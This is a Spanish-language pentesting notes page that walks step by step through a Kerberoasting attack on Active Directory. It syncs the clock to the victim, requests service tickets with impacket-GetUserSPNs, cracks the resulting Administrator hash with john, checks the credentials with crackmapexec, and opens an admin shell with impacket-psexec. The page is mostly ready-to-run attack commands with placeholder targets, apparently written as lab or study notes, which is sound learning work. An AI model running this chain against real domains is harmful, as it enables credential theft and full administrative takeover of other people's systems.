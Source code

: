 ```yaml
---
icon: ticket-perforated
---
```


# KERBEROASTING Active Directory

Generalmente se utiliza este ataque cuando tenemos unas credenciales validas de un usuario y dicho usuario es vulnerable a un `Kerberoasting` por lo que si se diera el caso, podremos hacer lo siguiente.

## <mark style="color:purple;">Establecer al misma franja horaria con la de la maquina victima</mark>

Primero tendremos que tener la misma franja horaria con la de la maquina victima (Que los relojes esten sincronizados, por que si no dara error) y podremos hacerlo de la siguiente forma:

```shell
ntpdate <IP_VICTIM>
```

Y con esto ya estaria sincronizado, por lo que podremos hacer el ataque.

## <mark style="color:purple;">Ataque de Kerberoasting</mark>

```shell
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -request
```

Lo que estamos haciendo con este comando es intentar obtener el `ticket granting service` y con este ticket lo que podemos hacer es obtener el hash de la contraseña del usuario `administrador`.

Si lo ejecutamos lo que nos proporcionara sera el hash del usuario `administrador` que se vera algo como...

```
$krb5tgs$23$*Administrator$<DOMAIN>.LOCAL$<DOMAIN>/Administrator*$<HASH_ADMIN>...
```

Y para poder saber si es vulnerable a este ataque lo podremos ver con el siguiente comando:

```shell
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD>
```

Esto si nos devuelve informacion es que si es vulnerable.

## <mark style="color:purple;">Crackear hash admin</mark>

Copiaremos el hash que nos proporciono el comando y lo pegaremos en un archivo para posteriormente crackearlo.

```shell
nano hash

#Dentro del nano
$krb5tgs$23$*Administrator$<DOMAIN>.LOCAL$<DOMAIN>/Administrator*$<HASH_ADMIN>...
```

Lo guardamos y haremos lo siguiente:

```shell
john --wordlist=<WORDLIST> hash
```

Si todo sale bien, obtendremos la contarseña del admin en texto plano, para posteriormente conectarnos con dichas credenciales.

Podremos probar dichas credenciales con la siguiente herramienta...

## <mark style="color:purple;">Comprobacion de credenciale</mark>s

```shell
crackmapexec smb <IP_VICTIM> -u 'Administartor' -p '<PASSWORD>'
```

Y si esto nos devuelve un `[+]........(Pwn3d!)` seguido de mas informacion, veremos que son correctas.

## <mark style="color:purple;">Conexion a la maquina con admin</mark>

Por lo que ahora nos conectaremos a la maquina victima mediante dichas credenciales:

```shell
impacket-psexec <DOMAIN>/Administrator:<PASSWORD>@<IP_VICTIM> cmd.exe
```

Y con esto ya estariamos dentro como `administradores`.
